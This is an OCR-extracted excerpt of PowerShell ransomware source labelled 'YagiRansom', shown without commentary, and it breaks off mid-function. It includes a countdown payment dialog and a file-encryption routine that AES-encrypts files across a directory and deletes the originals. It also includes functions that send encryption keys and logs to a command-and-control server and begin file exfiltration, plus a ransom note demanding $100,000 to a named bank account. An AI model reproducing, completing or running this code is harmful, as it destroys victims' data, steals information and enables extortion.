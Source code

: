 ```powershell
$btn.Width = 500
$form.Controls.Add($btn)
$btn.ForeColor = "Red"
$startTime = [DateTime]::Now
$count = 10.6
$7VEqr=New-Object System.Windows.Forms.Timer
$7VEqr.add_Tick({$elapsedSeconds = ([DateTime]::Now - $startTime).TotalSeconds ; $remainingSeconds = $count - $elapsedSeconds
if ($remainingSeconds -like "-0.1*"){ $7VEqr.Stop() ; $okbutton.Visible = $true ; $btn.Text = "0 Seconds remaining.." }
$btn.Text = [String]::Format("{0} Seconds remaining..", [math]::round($remainingSeconds))})
$7VEqr.Start()
$btntest = $form.ShowDialog()
if ($btntest -like "OK"){ $Global:PayNow = "True" }}
function R64Encoder { 
   if ($args[0] -eq "-t") { $VaFQ = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($args[1])) }
   if ($args[0] -eq "-f") { $VaFQ = [Convert]::ToBase64String([IO.File]::ReadAllBytes($args[1])) }
   $VaFQ = $VaFQ.Split("=")[0] ; $VaFQ = $VaFQ.Replace("C", "-") ; $VaFQ = $VaFQ.Replace("E", "_")
   $8bKW = $VaFQ.ToCharArray() ; [array]::Reverse($8bKW) ; $R64Base = -join $8bKW ; return $R64Base }
function GetStatus {
   Try { Invoke-WebRequest -useb "$7CiB`:$UFX/status" -Method GET 
      Write-Host "[i] C2 Server is up!" -ForegroundColor Green }
   Catch { Write-Host "[!] C2 Server is down!" -ForegroundColor Red }}
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
function SendClose {
   Invoke-WebRequest -useb "$7CiB`:$UFX/close" -Method GET 2>&1> $null }
function SendPay {
   Invoke-WebRequest -useb "$7CiB`:$UFX/pay" -Method GET 2>&1> $null }
function SendOK {
   Invoke-WebRequest -useb "$7CiB`:$UFX/done" -Method GET 2>&1> $null }
function CreateReadme {
   $I26TXT = "All your files have been encrypted by YagiRansom!!`nBut don't worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours.`nTo get decryption instructions, you must transfer 100000$ to the following account:`n`nAccount Name: Mat tran To quoc Viet Nam - Ban Cuu Tro Trung uong`n`nAccount Number: 0011.00.1932418`n`nBank: Vietnam Joint Stock Commercial Bank for Foreign Trade (Vietcombank)`n"
   if (!(Test-Path "$Directory$slash$I26")) { Add-Content -Path "$Directory$slash$I26" -Value $I26TXT }}
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
```